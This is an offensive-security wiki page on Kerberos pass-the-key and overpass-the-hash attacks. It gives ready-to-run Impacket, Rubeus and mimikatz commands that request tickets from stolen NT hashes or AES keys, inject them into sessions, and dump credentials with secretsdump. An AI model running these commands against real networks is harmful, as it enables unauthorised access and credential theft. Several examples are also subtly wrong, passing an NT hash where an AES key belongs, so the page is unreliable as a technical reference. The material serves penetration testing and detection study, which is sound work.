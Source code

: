 # Pass the key

## Theory

An attacker knowing a user's Kerberos key can use it to obtain Kerberos tickets and authenticate to remote services.

Kerberos offers 4 different key types: DES, RC4, AES-128 and AES-256.

* When the RC4 etype is enabled, the RC4 key can be used. The problem is that the RC4 key is in fact the user's NT hash. Using a an NT hash to obtain Kerberos tickets is called **overpass the hash**.
* When RC4 is disabled, other Kerberos keys \(DES, AES-128, AES-256\) can be passed as well. This technique is called **pass the key**. In fact, only the name and key used differ between overpass the hash and pass the key, the technique is the same.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [getTGT](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py) \(Python\) can request a TGT \(Ticket Granting Ticket\) given a password, hash \(`LMhash` can be empty\), or aesKey. The TGT will be saved as a `.ccache` file that can then be used by other Impacket scripts.

```bash
# with an NT hash (overpass-the-hash)
getTGT.py -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET

# with an AES (128 or 256 bits) key (pass-the-key)
getTGT.py -aesKey 'LMhash:NThash' $DOMAIN/$USER@$TARGET
```

Once a TGT is obtained, the tester can use it with the environment variable `KRB5CCNAME` with tools implementing [pass-the-ticket](pass-the-ticket.md).

An alternative to requesting the TGT and then passing the ticket is using the `-k` option in Impacket scripts. Example below with secretsdump.

```bash
secretsdump.py -k -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET
```
{% endtab %}

{% tab title="Windows" %}
On Windows, requesting a TGT can be achieved with [Rubeus](https://github.com/GhostPack/Rubeus) \(C\#\). The ticket will be injected in the session and Windows will natively be able to use these tickets to access given services.

```bash
# with an NT hash
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NThash /ptt

# with an AES 128 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes128:$NThash /ptt

# with an AES 256 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes256:$NThash /ptt
```

An alternative to Rubeus is [mimikatz](https://github.com/gentilkiwi/mimikatz).

```bash
# with an NT hash
sekurlsa::pth /user:$USER /domain:$DOMAIN /rc4:$NThash /ptt

# with an AES 128 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes128:$aes128_key /ptt

# with an AES 256 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes256:$aes256_key /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](pass-the-ticket.md#injecting-the-ticket).
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://blog.notso.pro/2020-05-09-offops-in-ad-1/" caption="" %}

{% embed url="http://blog.gentilkiwi.com/securite/mimikatz/overpass-the-hash" caption="" %}

{% embed url="https://blog.stealthbits.com/how-to-detect-overpass-the-hash-attacks/" caption="" %}

